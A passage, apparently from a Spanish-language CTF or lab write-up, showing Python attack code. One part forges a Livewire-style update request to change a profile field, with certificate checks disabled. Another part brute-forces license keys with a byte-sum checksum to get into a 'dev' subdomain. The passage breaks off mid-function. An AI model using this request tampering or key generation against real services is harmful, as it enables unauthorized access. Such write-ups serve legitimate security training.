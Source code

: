 ```python
	                "updated_at":updated_at
	            },
	            "photo":None
	        },
	        "dataMeta":[],
	        "checksum":checksum
	    },
	    "updates":[
	        {
	            "type":"syncInput",
	            "payload":{
	                "name":"state.name",
	                "value": new_name
	            }
	        },
	        {
	            "type":"callMethod",
	            "payload":{
	                "method":"updateProfileInformation",
	                "params":[]
	            }
	        }
	    ]
	}

	r = s.post(url_update, data=json.dumps(data_post),headers=headers, verify=False)
```
Luego para acceder al subdominio **dev** se ejecutó la función **Key_Gen** el cual genera la clave necesaria para luego enviarla, y así acceder al subdominio.

```python
def calc_g3():
	r = product(string.ascii_uppercase, repeat=2)

	r2 = [ "".join(x) for x in r ]


	com = {}

	for x in r2:
		for i in range(0,10):
			key = f"XP{x}{i}"

			value = sum(bytearray(key.encode()))

			com[value] = key

	return com.values()


def checksum_calc(key):
	gs = key.split('-')[:]
	return sum([sum(bytearray(g.encode())) for g in gs])

def Key_Gen():
	values = calc_g3()

	total_keys = []

	for x in values:
		key = f"KEY98-KY5Z3-{x}-GAML8-"
		cs = checksum_calc(key)
		key = key + str(cs)

```